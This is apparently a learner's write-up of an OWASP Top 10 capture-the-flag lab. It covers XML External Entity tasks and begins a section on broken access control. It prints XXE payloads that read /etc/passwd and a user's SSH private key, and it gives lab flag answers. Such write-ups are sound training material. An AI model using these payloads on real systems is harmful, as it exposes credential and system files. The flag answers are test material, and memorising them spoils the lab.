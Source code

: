 ```

# Task 15  [Severity 4] XML External Entity - XXE Payload
- we can use xml to assign a value to an entity, to display a name
```
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```
- we can use it to read some file from the system
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

## Tasks
24. Try the payload mentioned in description on the website.
![owasp top 10 flag24.png](../../../_resources/640be4afcf7d4689b1bd243df9e96509.png)


# Task 16 [Severity 4] XML External Entity - Exploiting

25. Try to display your own name using any payload.
![owasp top 10 flag25.png](../../../_resources/7485ca0ec45a4bc392e2fb196f24a482.png)

26. See if you can read the /etc/passwd.
```
<!DOCTYPE root [<!ENTITY read SYSTEM "file:///etc/passwd"> ]>
 <root>
&read;
 </root>
```
![owasp top 10 flag26.png](../../../_resources/f92eb56f8bf2483ea736d6eeba0df81b.png)


27. What is the name of the user in /etc/passwd
- at the end of the list you'll see user with uid 1000.
- user: falcon

28. Where is falcon's SSH key located?
- the ssh key is usually located in the .ssh directory under the user's home directory
`/home/falcon/.ssh/id_rsa`

29. What are the first 18 characters for falcon's private key?
- we change the filepath in the payload from before to the filepath for the ssh private key.
- we get the first 18 characters from the key displayed.
```
<!DOCTYPE root [<!ENTITY read SYSTEM "file:///home/falcon/.ssh/id_rsa"> ]>
 <root>
&read;
 </root>>
```
![owasp top 10 flag29.png](../../../_resources/8cdfe8cb85ff4629a2e3929ba58987a1.png)

`MIIEogIBAAKCAQEA7b`


# Task 17 [Severity 5] Broken Access Control

- broken access control scenarios:
	- use unverified data in a sql call accessing info that is not that of the user
	- force browse to target url
```